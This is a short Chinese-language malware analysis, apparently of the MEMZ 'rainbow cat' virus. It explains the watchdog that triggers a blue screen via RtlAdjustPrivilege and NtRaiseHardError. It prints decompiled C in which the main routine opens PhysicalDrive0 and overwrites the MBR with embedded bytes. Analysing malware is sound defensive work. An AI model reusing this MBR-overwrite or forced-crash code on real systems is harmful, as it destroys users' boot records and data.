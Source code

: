 1. 创建 20 个进程，随机出现在屏幕任意位置

2. 使用`RtlAdjustPrivilege`函数提升权限，调用`NtRaiseHardError`函数触发蓝屏

3. 使用`SeShutdownPrivilege`权限关闭系统，退出 Windows，关机/重启，所以在此处调用`sub_401021`函数，监控系统中 6 个进程是否被关闭，如果被关闭，则关闭系统，退出 Windows，关机/重启。

##### sub_401000 函数分析

```c
LRESULT __stdcall sub_401000(HWND a1, UINT a2, WPARAM a3, LPARAM a4)
{
  int savedregs; // [esp+0h] [ebp+0h] BYREF

  if ( a2 != 16 && a2 != 22 )    //只处理16或22的消息
    return DefWindowProcW(a1, a2, a3, a4);
  sub_401021((int)&savedregs);
  return 0;
}
```

函数只处理了 16 和 22 的消息，其他消息返回 0，并调用`sub_401021`函数。

在此处调用`sub_401021`函数，可以检测到用户是否主动关机/重启，如果用户主动关机也会执行该函数

所以，watchdog 部分的功能是监控进程状态和用户是否主动关机，如有发现，立即进入`sub_401021`函数，执行最后操作

#### main 部分分析

main 函数是核心部分，首先打开物理磁盘覆盖 MBR，达到开机执行彩虹猫的效果，另一块是运行病毒出现的各种现象

##### 物理磁盘覆盖 MBR

MBR 是一个引导程序，引导加载操作系统，所以需要覆盖掉 MBR，达到开机执行彩虹猫的效果。

```c
FileA = CreateFileA("\\\\.\\PhysicalDrive0", 0xC0000000, 3u, 0, 3u, 0, 0);
    hObject = FileA;
    if ( FileA == (HANDLE)-1 )
      ExitProcess(2u);
    v3 = 0;
    v4 = LocalAlloc(0x40u, 0x10000u);
    v5 = v4;
    do
    {
      ++v3;
      *v5 = v5[byte_402118 - v4];
      ++v5;
    }
    while ( v3 < 0x12F );
    for ( i = 0; i < 0x7A0; ++i )
      v4[i + 510] = byte_402248[i];
    if ( !WriteFile(FileA, v4, 0x10000u, &NumberOfBytesWritten, 0) )
      ExitProcess(3u);
    CloseHandle(hObject);
```

